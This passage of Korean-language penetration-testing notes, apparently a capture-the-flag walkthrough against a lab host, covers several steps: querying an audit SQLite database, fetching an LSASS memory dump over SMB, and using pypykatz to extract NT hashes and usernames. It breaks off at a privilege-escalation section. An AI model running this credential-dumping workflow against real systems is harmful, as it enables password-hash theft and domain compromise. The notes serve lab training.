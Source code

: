 ### splite3
```
sqlite3 Audit.db
```
```
.tables
select * from DeletedUserAudit;
select * from Ldap;
select * from Misc;
```

### lsass
```
# memory_analysis 폴더
get lsass.zip

# 다운로드 안될 시
prompt OFF
mget lsass.zip

smbget smb://10.10.10.192/forensic/memory_analysis/lsass.zip -U audit2020
```

### pypykatz
```
pypykatz lsa minidump lsass.DMP

# 만약 설치 안되어 있다면
pip3 install pypykatz
```
```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{print $2}' | sort -u
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{print $2}' | sort -u > nt_hashes
```
```
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{print $2}' | sort -u
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{print $2}' | sort -u > users
```




<br>

---


## 권한상승

### 그룹 확인
```
whoami /groups
```

### Get-ADDomain
```
Get-ADDomain
```
